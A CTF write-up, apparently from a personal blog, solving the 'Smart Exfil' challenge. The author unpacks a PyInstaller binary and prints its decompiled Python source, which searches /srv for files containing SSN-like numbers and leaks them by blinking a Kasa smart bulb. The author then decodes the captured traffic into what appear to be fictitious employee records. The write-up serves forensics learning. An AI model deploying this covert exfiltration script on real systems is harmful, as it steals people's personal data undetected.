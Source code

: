 ```yaml
---
title: Smart Exfil
description: UND CyberHawks CTF 2024
author: overllama
date: 2025-06-01
categories: [Reverse Engineering]
# tags: [favicon]
---
```


This was a challenge that was part of the [UND CyberHawks National CTF Competition](https://blogs.und.edu/cem/2024/07/registration-now-open-und-cyberhawks-national-capture-the-flag-ctf-competition/), which was hosted through the [MetaCTF](https://app.metactf.com/) platform, and frankly had a really long title for a mid CTF. My friend and I showed up and played as a team of 2 in a 4-person-team competition and we did pretty well actually! We got 2nd in the pre-qualifiers and 5th in the finals (the finals was much more time constrained, qualifiers was over the course of a whole week and we just got to challenges pretty quick). All in all, a good time and not too hard of challenges. This is the only one I thought was worth writing up about.

### Description

I don't remember, it's been a while lol.

- [logs.pcap](/assets/code/smart-exfil/logs.pcap)
- [nothing_to_see_here](/assets/code/smart-exfil/nothing_to_see_here)

### Solve

This challenge used a lot of tooling I had never seen before and had a really neat solution, so I decided to do a writeup about it. Opening the pcap reveals a *lot* of network traffic that looks normal.

Starting off running strings on the binary, we get a lot of strings noting that Python had something to do with this:
```
Failed to execute script '%s' due to unhandled exception!
_MEIPASS2
_PYI_ONEDIR_MODE
_PYI_PROCNAME
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Cannot side-load external archive %s (code %d)!
LOADER: failed to set linux process name!
/proc/self/exe
ld-%64[^.].so.%d
Py_DontWriteBytecodeFlag
Py_FileSystemDefaultEncoding
Py_FrozenFlag
Py_IgnoreEnvironmentFlag
Py_NoSiteFlag
Py_NoUserSiteDirectory
Py_OptimizeFlag
bpydantic/json.cpython-310-x86_64-linux-gnu.so
xpython_kasa-0.5.3.dist-info/LICENSE
```

One such string is `PYINSTALLER_STRICT_UNPACK_MODE` (or other strings denoting that the binary used pyinstaller). Pyinstaller is essentially a packer that packs python files into a binary to be run on a system. This means that there was originally a Python file that made this file... is there a good way to get that out? Luckily, some kind soul on the internet did the hard work of setting up an extractor for us. The tool is called [`pyinstxtractor.py`](https://github.com/extremecoders-re/pyinstxtractor) and it's a single python file that can extract the `.pyc` file(s) from a binary. You run it using:

```sh
╰─ ❯❯ python pyinstxtractor.py nothing_to_see_here
[+] Processing nothing_to_see_here
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 10099053 bytes
[+] Found 77 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: smart_exfil.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: nothing_to_see_here

You can now use a python decompiler on the pyc files within the extracted directory
```

It outputs a lot of files in an extracted directory (`nothing_to_see_here_extracted`), and inside those there are a lot of python files that are necessary at runtime and one more that is custom, as indicated by the output: `smart_exfil.pyc`. Now that we have a pyc file, we can get the original Python using an online too. My personal tool of choice is [PyLingual](https://pylingual.io), since they support more recent Python versions than just about anything else. Throwing the pyc into there outputs us a usable Python file that we can use to determine what that pcap contains!

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: smart_exfil.py
# Bytecode version: 3.10.0rc2 (3439)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import re
import zlib
import kasa
import asyncio
import time
import subprocess
to_send = b''

def pack(item, message):
    return b'--' + item.encode('utf8') + b'--' + zlib.compress(message.encode('utf8'))
to_send += pack('uname', subprocess.run(['uname', '-a'], stdout=subprocess.PIPE, text=True).stdout)
for root, _, files in os.walk('/srv/'):
    for filename in files:
        if filename.endswith(('.txt', '.csv', '.sql')):
            p = os.path.join(root, filename)
            with open(p, 'r', encoding='utf8') as f:
                content = f.read()
                if re.search('\\b\\d{3}-\\d{2}-\\d{4}\\b', content):
                    to_send += pack(filename, content)

async def exfil(data):
    devices = await kasa.Discover.discover()
    bulb = None
    for addr, d in devices.items():
        await d.update()
        if d.device_type == kasa.DeviceType.Bulb:
            bulb = d
            break
    await bulb.update()
    await bulb.turn_on()
    i = 0
    for byte in data:
        if i % 10 == 0:
            print(str(i) + '/' + str(len(data)), round(100.0 * i / len(data), 1))
        i += 1
        c = 0
        for bit in format(byte, '08b'):
            time.sleep(0.05)
            await bulb.set_hsv(45 * c, 100, 100 if bit == '1' else 0)
            c += 1
s = time.time()
asyncio.run(exfil(to_send))
print(time.time() - s)
```

This is a neat script! It uses a special smart light Python library to find a light on the network and then turn it on and off for each bit in the binary data that it packs from the system. This means that if we can find this data in the pcap, we can turn it back into binary and get the files from the system, which probably contain the flag! Wireshark is actually nice enough to translate that data for us in the GUI application:

![Wireshark output](/assets/img/posts/smart-exfil/image.png)

It appears `bulb.set_hsv(45 * c, 100, 100 if bit == '1' else 0)` is working, and the brightness is being set high for 1's and low for 0's, so we can use that to extract the original data! We can apply a quick filter (`((ip.dst == 10.10.12.20) && (ip.src == 10.10.12.21)) && (_ws.col.protocol == "TPLINK-SMARTHOME/JSON")`), ctrl+a, copy paste that into a blank file, do some find replace magic to just get the brightness values, one more find and replace to get a comma separated list of 0's and 1's, and it's ready to go into Python. A really quick script is enough to get us the basic data we need:

```python
>>> arr = "<list of 0's and 1's>"
>>> arr2 = ''.join([str(i) for i in arr])
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(int(arr2, 2))
b'--uname--x\x9c\xf3\xc9\xcc+\xadP\xc8M-IL\xca\xafP0\xd33\xd23\xd056\xd2MO\xcdK-\xcaLVP66\xaa3\x02\x8a\x99\xe8\x19\xea\x86&\x95\xe6\x95\x94*\x04\xfb\x06(\x04\x04\xb9\xba\xfa\x06\x84\xc4\xbbD\xfa9\xfaz:+\xb8\x15e*8\x96\xa6+\x18Z(\x18\x1aX\x99\x18X\x19\x1a+\x84\x868+\x18)TX\x98\xc5\x9b\x99\xa0Q\xee~\xa1\xfa> \x8b\xb9\x00=\x93#\x8f--employee_export.csv--x\x9cU\x91\xcdn\xdb0\x10\x84\xefy\n\xc2\x97^\x96\x82H\xfd\x90\xbc\xd9uc\xa0\xad\xdd\x02\x89\x81\x16\xbd\x08+\x99\x95\x98P\xa4A\xc9p\xed\xa2\xef^J\xb9D7\x0e\x07\xd8ov\x96\xa7\xa9(\x05<\xf6=\xc2\x01\xc3h\x9c\xbe\x83\x8e*\xe9\xd7\x9d\xfe\x83\xd6\x8c:1\x1e\x86\x8b\x1b\xbahN\x96T\xeb\x1bv\xde\'\x8d\xef\x81)IeN\xcb,\x17\xb0b<#\x07<[M\x9eG \xcf\xe7`\\\xfb\xdbh{\x02\xf2yOJ.\xd2|\x05\x0fE\xc9Ydn\x82A\xf8\xfe\xe1I\x1bko\x80Q%~\xc1|\xfb\n\xb3\x9f\xf3u\xdb\xa3\xb133\xe7)\x15%\x8ds"S\x95\x19y\xd2\xa7\xab\xf7\'\xb2w\x91\x8a\x8e\xec\x02\xba\xc6\x0c\x8d\x07\xb2\xdd\x10\x95\xb34[\xc1A\x8f\xb8=\xee\xfe\xd6\xc1\xb4\xddX\xd5\xd6\xb8\xd7\x98\xaf\xaa/\xb6\xae\xea\xa0\xb1\xe9\xf4\xf0\xefA\xb0B\xe6\x1c\xbe`\xf3:x\x07\x1f\x83\xbf:xySI\xbd\x08\xf8ROf\x8b\xbd\x0e\xef\x1a)2F\xa5\xa2\xb2,$\xac\xa4\xc8\xc9\x0f\xb4\xee2\x92\xad\t@>\xa1\xb58\x009\xfe$\xa2\xe0)\x8bu\xc8B\xb1L\xc2\xb6\xb3^\xc3/\xd3\xc7i=:h&\x9d\xdc\x17\xc0\xe6^M7\x1aF\xd3,\xea\xc8\xa8R4\x06\x8fupV(r\xd0x\xf2\xd7\xb9\x8e#\xf6g\x04\xb2\xdb\x93,+S\x1eyJ*\xc98<\x8e]\xa4|k/7\xed@O"q\x0b\x98\x9b\xadj\xb6\xa4|\xbf\xa0,\xa9\x90\x94\t\x91G^\x91K\xb2\xf58\x8ch\xe7\xabo\\\xd3\xf9\x80\xad\x8e\xcf\xafD\xa9b^\xf2?]\xa8\xc2r'
```

But... that's not what I wanted to see? This actually took me a couple minutes, but the data in the `pack()` function in that python code is zlib compressed. So let's decompress it. `uname` we can ignore since that's the output of `uname -a`, but the `employee_export.csv` seems promising.
```python
>>> import zlib
>>> message = b'x\x9cU\x91\xcdn\xdb0\x10\x84\xefy\n\xc2\x97^\x96\x82H\xfd\x90\xbc\xd9uc\xa0\xad\xdd\x02\x89\x81\x16\xbd\x08+\x99\x95\x98P\xa4A\xc9p\xed\xa2\xef^J\xb9D7\x0e\x07\xd8ov\x96\xa7\xa9(\x05<\xf6=\xc2\x01\xc3h\x9c\xbe\x83\x8e*\xe9\xd7\x9d\xfe\x83\xd6\x8c:1\x1\
e\x86\x8b\x1b\xbahN\x96T\xeb\x1bv\xde\'\x8d\xef\x81)IeN\xcb,\x17\xb0b<#\x07<[M\x9eG \xcf\xe7`\\\xfb\xdbh{\x02\xf2yOJ.\xd2|\x05\x0fE\xc9Ydn\x82A\xf8\xfe\xe1I\x1bko\x80Q%~\xc1|\xfb\n\xb3\x9f\xf3u\xdb\xa3\xb133\xe7)\x15%\x8ds"S\x95\x19y\xd2\xa7\xab\xf7\'\xb2w\x91\x8a\x8\
e\xec\x02\xba\xc6\x0c\x8d\x07\xb2\xdd\x10\x95\xb34[\xc1A\x8f\xb8=\xee\xfe\xd6\xc1\xb4\xddX\xd5\xd6\xb8\xd7\x98\xaf\xaa/\xb6\xae\xea\xa0\xb1\xe9\xf4\xf0\xefA\xb0B\xe6\x1c\xbe`\xf3:x\x07\x1f\x83\xbf:xySI\xbd\x08\xf8ROf\x8b\xbd\x0e\xef\x1a)2F\xa5\xa2\xb2,$\xac\xa4\xc8\x\
c9\x0f\xb4\xee2\x92\xad\t@>\xa1\xb58\x009\xfe$\xa2\xe0)\x8bu\xc8B\xb1L\xc2\xb6\xb3^\xc3/\xd3\xc7i=:h&\x9d\xdc\x17\xc0\xe6^M7\x1aF\xd3,\xea\xc8\xa8R4\x06\x8fupV(r\xd0x\xf2\xd7\xb9\x8e#\xf6g\x04\xb2\xdb\x93,+S\x1eyJ*\xc98<\x8e]\xa4|k/7\xed@O"q\x0b\x98\x9b\xadj\xb6\xa4|\
\xbf\xa0,\xa9\x90\x94\t\x91G^\x91K\xb2\xf58\x8ch\xe7\xabo\\\xd3\xf9\x80\xad\x8e\xcf\xafD\xa9b^\xf2?]\xa8\xc2r'
>>> zlib.decompress(message)
b'200767,Emma,Martinez,emma.m@hexalite.io,sunshineemma89@yahoo.com,198-84-6347,"123 Maple St, Springfield, IL 62704",\n562167,Aria,O\'Reilly,aria.o@hexalite.io,aria.oreilly42@gmail.com,420-76-5627,"963 Redwood Ln, San Francisco, CA 94103",MetaCTF{bright_blinking_bulb_breaches}\n715842,Jackson,Brown,jackson.b@hexalite.io,jbrowngamer@yahoo.com,531-89-8658,"874 Walnut Cir, Dallas, TX 75201",\n859138,Chloe,Zimmerman,chloe.z@hexalite.io,cz_artistic@gmail.com,423-99-7157,"2159 Meadow Ln, Tampa, FL 33602",\n989812,Ethan,Nguyen,ethan.n@hexalite.io,nguyen_ethan88@yahoo.com,586-78-1774,"2548 Coastal St, Anchorage, AK 99501",\n'
```

And that's the flag! I was actually the only solve on this challenge, which felt really nice, too. All in all, a neat combination of reverse engineering and network forensics :)

Flag: `MetaCTF{bright_blinking_bulb_breaches}`